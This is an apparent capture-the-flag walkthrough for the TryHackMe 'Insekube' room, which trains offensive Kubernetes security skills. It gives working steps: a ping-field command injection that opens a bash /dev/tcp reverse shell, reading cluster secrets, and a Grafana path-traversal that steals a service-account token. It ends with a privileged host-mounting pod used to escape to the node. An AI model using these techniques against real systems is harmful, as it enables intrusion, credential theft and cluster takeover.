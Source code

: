 # TryHackMe Insekube Writeup

This is a great room from TryHackMe! You can find it at https://tryhackme.com/room/insekube

## task 1

from attackbox:
```bash
nmap {target IP}
```

## task 2

Go to web page on target on port 80. Input is passed to a shell with ping prefixed.

```bash
127.0.0.1; {your command here}
# netcat is not installed on target

# on attack box star a listener
nc -lvnp 9999

# on target web page
127.0.0.1; bash -i >& /dev/tcp/{attack box IP}/9999 0>&1

# for shell convenience
export TERM=xterm-256color

printenv # to get all env vars (could also do remotely but we need a rev shell later)
```

## task 3

kubectl is in `/tmp`

alias if you want: `alias kubectl="/tmp/kubectl"` or just stay in /tmp and invoke kubectl with `./kubectl`

`kubectl auth can-i --list`

notice you can get and list secrets 🤔

## task 4

list secrets, then get secrets

```bash
kubectl get secrets

kubectl describe secret secretflag

kubectl get secret secretflag -o 'json'
```

```json
{
    "apiVersion": "v1",
    "data": {
        "flag": "{REDACTED}="
    },
    "kind": "Secret",
    "metadata": {
        "annotations": {
            "kubectl.kubernetes.io/last-applied-configuration": "{\"apiVersion\":\"v1\",\"data\":{\"flag\":\"{REDACTED}=\"},\"kind\":\"Secret\",\"metadata\":{\"annotations\":{},\"name\":\"secretflag\",\"namespace\":\"default\"},\"type\":\"Opaque\"}\n"
        },
        "creationTimestamp": "2022-01-06T23:41:19Z",
        "name": "secretflag",
        "namespace": "default",
        "resourceVersion": "562",
        "uid": "6384b135-4628-4693-b269-4e50bfffdf21"
    },
    "type": "Opaque"
}
```
decode the base64 flag

`echo "{REDACTED}=" | base64 -d`

flag: `flag{REDACTED}`

## task 5

view environment variables on a node to recon what's on the cluster

`env`

notice the grafana service and port

curl grafana, notice there is a login page

curl the login page, notice the version number

`curl http://grafana:3000/login`

grep for "Grafana v"

version is 8.3.0-beta2

read through https://www.exploit-db.com/exploits/50581 to get the path of the LFI, don't need to actually run this python code

CVE-2021-43798

## task 6

assumes you used the CVE to grab the k8s service token grafana is using, as described in this blog:
https://brootware.github.io/posts/exploiting-kubernetes-through-a-grafana-lfi-vulnerability/

setting the token with:
```bash
export token=$(curl --path-as-is http://grafana:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token)
```

then use the token with `kubectl` like this:
```bash
kubectl auth can-i --list --token=${token}
```

now we have `*` verbs on `*.*` verbs! that's kubernetes admin permissions

check the name of the service account token we have
```bash
kubectl get serviceaccount --token=${token}
```

get the name of the grafana pod (`kubectl get pods --token=${token}`)

exec into the grafana pod with
```bash
kubectl exec -it grafana-57454c95cb-v4nrk --token=${token} -- /bin/bash
```

get environment variables for a flag

## task 7

here we need to get a .yaml file on the system

there are no text editors, so we have to copy/paste it in

note: the host is offline but the maintainers were kind enough to put a copy of `ubuntu` on the machine, just have to add an image pull policy to use the old copy

```bash
cat <<EOF >>privesc.yml
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: ubuntu
    imagePullPolicy: IfNotPresent
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /
EOF
kubectl apply -f privesc.yml --token=${token}
```
that launches the pod and attaches the host filesystem to it

verify it's there  with `kubectl get pods --token=${token}`

exec into it `kubectl exec -it everything-allowed-exec-pod --token=${token} -- /bin/bash`

now you're in the root of the malicious pod

cd into the filesystem of th host `cd /host`

find flag at `/host/root/flag.txt`
